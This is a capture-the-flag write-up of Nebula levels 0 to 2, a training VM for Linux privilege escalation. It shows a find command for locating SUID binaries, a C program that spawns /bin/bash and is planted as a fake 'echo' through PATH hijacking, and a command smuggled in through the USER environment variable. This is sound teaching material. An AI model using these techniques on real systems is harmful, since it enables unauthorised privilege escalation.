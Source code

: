 ```yaml
---
title: "Writeup: Nebula (level 0 - level 2)"
date: 2020-12-16T14:42:58+08:00
draft: true
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/). 

<br>

## Level 0

Here is the description about Level 0. 

```
About
This level requires you to find a Set User ID program that will run as the “flag00”
account. You could also find this by carefully looking in top level directories in 
/ for suspicious looking directories.

Alternatively, look at the find man page.

To access this level, log in as level00 with the password of level00.

Source code
There is no source code available for this level
```

According to the hint, we need to find a program which can run as the "flag00". Basically, "find" is used to search for files in a directory hierarchy. Unix systems also provide the flag `-perm` to find the file based on its permission. 

First, login in as level00 and check the identifier information. 

![](https://github.com/chuang76/image/blob/master/00-1.PNG?raw=true)

As we mentioned above, we can search our target with find command. The slash (/) symbol means the root directory. To avoid the verbose error message, let's redirect stderr to a file called err (or you can redirect unwanted output to /dev/null). 

```
$ find / -type f -perm /u+s 2>err | grep "flag00"
```

Two files match the conditions. 

![](https://github.com/chuang76/image/blob/master/00-2.PNG?raw=true)

As you can see, the owner and the group of /bin/.../flag00 and /rofs/bin/.../flag00 is flag00 and level00, respectively. The vulnerability is that the permission of files was set to `rwsr-xr--`, that is, they are Set-UID programs. Since we logged in as level00, when we run the programs, we can get the privilege as the owner flag00. 

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/00-3.PNG?raw=true)

<br>

## Level 1

The description of Level 1 is provided as follows. 

```
There is a vulnerability in the below program that allows arbitrary programs 
to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. 
Files for this level can be found in /home/flag01.
```

The source code is also available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
```

Let's run the program. The parameter "/usr/bin/env" is used to set the PATH. PATH is an environment variable in Unix-based systems, it tells the shell which directories to search for executable files. Then, the program displays the text "and now what". 

However, there is a vulnerability: flag01 is a Set-UID program while it contains a system() function. So it provides the attackers to execute an arbitrary shell command. 

![](https://github.com/chuang76/image/blob/master/01-1.PNG?raw=true)

Our goal is to execute system("/bin/bash"), but how can we modify the parameters of system function? Here is a solution: we can modify "echo" as an executable to execute the /bin/bash command. In other words, we deceive the program to make it run echo as an executable, instead of its original functionality (i.e., display the text). 

Here is our exploit program in the /home/level01 directory, compile it and name the executable as echo. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char** argv)
{
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

Next, let's set the PATH variable. Actually, PATH is a list of directories that are walked through in the order. The colon (:) symbol is a separator. Hence, our prepared directory (i.e., the directory that contains executable echo) should be added before the original PATH variable ($PATH). So it should be 

```
$ export PATH=/home/level01:$PATH 
```

rather than

```
$ export PATH=$PATH:/home/level01
```

Run flag01 again, and get the flag. 

![](https://github.com/chuang76/image/blob/master/01-3.PNG?raw=true)

<br>

## Level 2

The description of Level 2 is provided as follows. 

```
There is a vulnerability in the below program that allows arbitrary programs 
to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. 
Files for this level can be found in /home/flag02.
```

The source code is available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    char *buffer;

    gid_t gid;
    uid_t uid;

    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    buffer = NULL;

    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);

    system(buffer);
}
```

The function getenv() is used to get environment variables. The function asprintf() is used to print to allocated string. It is identical to printf(), except that after executing asprintf(), the first parameter will point to a certain string. In our case, buffer is going to point to the string "/bin/echo %s is cool", and will be treated as the parameter of system() function. 

Again, our goal is to perform system("/bin/bash"). The program contains a vulnerability: it provides the user to feed an arbitrary string to the program. As a result, we can make "/bin/bash" as the value of the key USER. 

Wait, something smells fishy. The string "/bin/echo /bin/bash is cool" can not make system function run properly. Since we aren't able to control the characters "/bin/echo is cool", we can craft the string to run multiple commands. For example, 

```
"/bin/echo && /bin/bash && /bin/echo is cool"
           ^^^^^^^^^^^^^^^^^^^^^^^^^           the value of the key "USER"
```

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/02-1.PNG?raw=true)

<br>

## Brief Summary 

The vulnerabilities of Set-UID programs:

1. user inputs
2. environment variables
3. system inputs controlled by users.

